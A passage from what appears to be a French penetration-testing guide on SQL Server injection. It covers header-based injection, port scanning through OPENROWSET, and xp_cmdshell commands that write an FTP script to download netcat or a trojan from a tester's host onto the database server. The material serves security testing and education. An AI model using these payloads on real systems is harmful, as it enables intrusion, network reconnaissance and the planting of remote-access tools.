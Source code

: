 `Referer: https://vulnerable.web.app/login.aspx', 'user_agent', 'some_ip'); [SQL CODE]--`

Cela permet l'exécution de code SQL arbitraire. Cela arrive aussi si le
User-Agent a cette valeur :

`User-Agent: user_agent', 'some_ip'); [SQL CODE]--`

### Exemple 7: utiliser SQL Server comme un scanner de ports

Sous SQL Server, OPENROWSET est une des commandes les plus utiles (pour
le testeur d'intrusion). Elle est utilisée pour exécuter une requête sur
un autre serveur de base de données et en récupérer les résultats. Le
tester peut utiliser cette commande pour scanner les ports des autres
machines du réseau ciblé, en injectant la requête suivante :

    select * from OPENROWSET('SQLOLEDB','uid=sa;pwd=foobar;Network=DBMSSOCN;Address=x.y.w.z,p;timeout=5','select 1')--

La requête va tenter d'ouvrir une connexion vers l'adresse x.y.w.z sur
le port p. Si le port est fermé, le message suivant sera retourné :

    SQL Server does not exist or access denied

Si le port est ouvert, une des erreurs suivantes sera retournée :

    General network error. Check your network documentation

    OLE DB provider 'sqloledb' reported an error. The provider did not give any information about the error.

Bien sûr, le message d'erreur n'est pas toujours disponible. Si c'est le
cas, on peut utiliser le temps de réponse pour comprendre ce qui se
passe : en cas de port fermé, le timeout (5 secondes dans cet exemple)
sera écoulé, alors qu'un port ouvert retournera un résultat
immédiatement.

Il faut garder à l'esprit que OPENROWSET est activée par défaut dans SQL
Server 200 mais désactivée dans SQL Server 2005.

### Exemple 8: télécharger des exécutables

Une fois que l'on peut utiliser xp_cmdshell (soit la version native
soit la version personnalisée), on peut facilement télécharger des
exécutables vers le serveur de base de données. Un choix très commun
ser netcat.exe, mais un trojan quelconque sera aussi utile ici. Si la
cible est autorisée pour démarrer une connexion FTP vers la machine du
testeur, il suffit d'injecter les requêtes suivantes :

    exec master..xp_cmdshell 'echo open ftp.tester.org > ftpscript.txt';--
    exec master..xp_cmdshell 'echo USER >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo PASS >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo bin >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo get nc.exe >> ftpscript.txt';--
    exec master..xp_cmdshell 'echo quit >> ftpscript.txt';--
    exec master..xp_cmdshell 'ftp -s:ftpscript.txt';--
